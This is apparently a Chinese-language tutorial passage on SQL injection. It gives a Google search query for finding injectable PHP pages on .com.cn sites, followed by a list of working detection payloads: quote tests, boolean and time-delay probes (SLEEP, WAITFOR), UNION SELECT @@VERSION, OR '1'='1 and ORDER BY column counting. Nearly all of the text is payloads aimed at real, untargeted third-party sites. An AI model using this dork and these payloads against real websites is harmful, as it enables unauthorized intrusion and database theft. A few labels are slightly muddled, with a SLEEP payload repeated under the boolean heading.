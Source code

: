 报错注入：

把注入的语句返回到页面中

## 4 查找

谷歌语法：`inurl:"php?id=" site:".com.cn"`

注入

## 5 判断是否存在 SQL 注入

1. **单引号测试（'）：**

   ```
   ?id=1'
   ```

2. **双引号测试（"）：**

   ```
   ?id=1"
   ```

3. **错误消息分析：**

   ```
   ?id=1' AND 1=1-- 
   ?id=1' AND 1=2-- 
   ```

4. **布尔测试：**

   ```
   ?id=1' AND SLEEP(5)-- 
   ?id=1' AND 1=2 UNION SELECT 1,2,3-- 
   ```

5. **时间延迟测试：**

   ```
   ?id=1' AND SLEEP(5)-- 
   ?id=1' WAITFOR DELAY '0:0:5'-- 
   ```

6. **报错注入：**

   ```
   ?id=1' UNION SELECT 1,@@VERSION,3-- 
   ```

7. **逻辑测试：**

   ```
   ?id=1' OR '1'='1
   ?id=1' AND '1'='2
   ```

8. **顺序注入**

   ```
   ?id=1 order by 1
   ?id=1 order by 100
   ```
